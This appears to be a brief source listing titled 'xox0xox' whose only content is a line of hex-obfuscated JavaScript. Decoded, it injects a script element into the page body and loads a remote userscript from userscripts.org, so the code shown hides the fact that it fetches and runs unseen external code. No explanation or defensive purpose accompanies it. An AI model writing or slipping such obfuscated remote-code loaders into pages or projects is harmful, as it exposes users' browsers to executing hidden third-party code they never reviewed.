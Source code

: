 xox0xox
=======

var _0xb9f5=["\x73\x72\x63","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x75\x73\x65\x72\x73\x63\x72\x69\x70\x74\x73\x2E\x6F\x72\x67\x2F\x73\x63\x72\x69\x70\x74\x73\x2F\x73\x6F\x75\x72\x63\x65\x2F\x34\x33\x34\x38\x30\x34\x2E\x75\x73\x65\x72\x2E\x6A\x73"];document[_0xb9f5[4]][_0xb9f5[3]](document[_0xb9f5[2]](_0xb9f5[1]))[_0xb9f5[0]]=_0xb9f5[5];
